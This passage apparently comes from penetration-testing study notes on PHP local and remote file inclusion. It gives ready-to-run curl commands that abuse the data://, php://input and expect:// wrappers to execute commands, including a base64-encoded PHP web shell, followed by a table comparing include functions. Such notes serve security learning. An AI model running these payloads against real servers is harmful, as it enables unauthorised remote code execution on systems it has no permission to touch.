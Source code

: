 Alternate method:
```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### [Input](https://www.php.net/manual/en/wrappers.php.php)
* Also needs `allow_url_include` as shown above.
* Wrapper must also except POST requests
Example:
```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

#### [Except](https://www.php.net/manual/en/wrappers.expect.php)
* Directly run commands through the URL streams.
* Don't need to provide a web shell
##### Check if enabled 
```shell
echo '<PHP CONFIG BASE64>' | base64 -d | grep expect
```
##### Example
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```


## Remote File Inclusion 
* Allows the inclusion of remote URLs
* Benefits:
	1. Enumerating local-only ports and web applications (SSRF)
	2. Gaining remote code execution by including malicious scripts that we host
### LFI vs RFI
|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|
